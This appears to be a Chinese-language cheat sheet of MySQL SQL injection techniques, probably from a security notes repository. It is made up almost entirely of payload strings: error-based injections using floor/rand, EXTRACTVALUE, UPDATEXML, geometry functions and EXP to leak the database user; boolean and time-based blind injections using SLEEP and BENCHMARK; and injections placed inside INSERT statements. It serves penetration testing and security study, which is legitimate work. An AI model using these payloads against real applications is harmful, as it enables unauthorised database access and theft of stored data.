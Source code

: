 10种MYSQL报错注入的方式(注意：报错注入利用的方式跟 **MYSQL版本**有很大关联)
 - `SELECT * FROM users WHERE id=1 AND (SELECT 1 FROM (SELECT count(*),concat(USER(),FLOOR(RAND(0)*2))x FROM information_schema.tables group by x)a)`
 - `SELECT * FROM users WHERE id=1 AND (EXTRACTVALUE(1,concat(0x7e,(SELECT USER()),0x7e)))`
   - VERSION() > MYSQL 5.1.5
 - `SELECT * FROM users WHERE id=1 AND (UPDATEXML(1,concat(0x7e,(SELECT USER()),0x7e),1))`
   - 报错结果有32位的长度限制
   - VERSION() > MYSQL 5.1.5
 - `SELECT * FROM users WHERE id=1 AND GEOMETRYCOLLECTION((SELECT * FROM(SELECT * FROM(SELECT USER())a)b))`
 - `SELECT * FROM users WHERE id=1 AND MULTIPOINT((SELECT * FROM(SELECT * FROM(SELECT USER())a)b))`
 - `SELECT * FROM users WHERE id=1 AND POLYGON((SELECT * FROM(SELECT * FROM(SELECT USER())a)b))`
 - `SELECT * FROM users WHERE id=1 AND MULTIPOLYGON((SELECT * FROM(SELECT * FROM(SELECT USER())a)b))`
 - `SELECT * FROM users WHERE id=1 AND LINESTRING((SELECT * FROM(SELECT * FROM(SELECT USER())a)b))`
 - `SELECT * FROM users WHERE id=1 AND MULTILINESTRING((SELECT * FROM(SELECT * FROM(SELECT USER())a)b))`
 - `SELECT * FROM users WHERE id=1 AND EXP(~(SELECT * FROM(SELECT USER())a))`


[mysql十一种报错注入方式](https://www.msfcode.com/2016/10/11/%E3%80%90sql%E6%B3%A8%E5%85%A5%E3%80%91mysql%E5%8D%81%E7%A7%8D%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5%E6%96%B9%E5%BC%8F/)
[Mysql报错注入笔记](https://zhuanlan.zhihu.com/p/26316761)
[MySQL Error Based SQL Injection （报错注入）总结](http://uknowsec.cn/posts/notes/MySQL%20Error%20Based%20SQL%20Injection%20%EF%BC%88%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5%EF%BC%89%E6%80%BB%E7%BB%93.html)

<br>
## MYSQL盲注
当不能通过直接显示的途径来获取数据库数据时，需要利用其他的方式判断或者尝试，这个过程就是盲注。

一般来说可以根据以下两种来作为判断条件进行盲注
 - 基于布尔
 根据页面`回显的内容`来判断注入的语句是否成立。
 - 基于时间
 根据页面`响应的时间`来判断注入的语句是否成立。


### 基于布尔盲注
根据页面`回显的内容`来判断注入的语句是否成立。

`id = 1' AND ASCII(SUBSTRING(DATABASE(), 1, 1)) > 32`


### 基于时间盲注
根据页面`响应的时间`来判断注入的语句是否成立。

`id = 1' AND IF(SUBSTRING(DATABASE(), 1, 1) = 'a', SLEEP(5), 1)`
`id = 1' AND IF(SUBSTRING(DATABASE(), 1, 1) = 'a', BENCHMARK(100000,SHA1(1)), 1)`

<br>
## INSERT INTO注入
 - 报错注入(利用MYSQL报错信息带出数据)
   - `INSERT INTO users VALUES('1','2' AND UPDATEXML(1,CONCAT(1,DATABASE(),0x7e),1) AND '1')`
   - 连接符可以使用`and or xor && || + - * / | &`
 - 插入多条数据内容
   - `INSERT INTO users VALUES(NULL,'1','2'),(NULL,database(),'3')`
 - 盲注
   - 布尔盲注
     - 这边个人认为布尔盲注是没有问题的，但是如果存在多用户操作，那么盲注的过程会出现问题，不如使用时间盲注
   - 时间盲注
     - `INSERT INTO users VALUES(NULL,'username' or SLEEP(2),'password');`
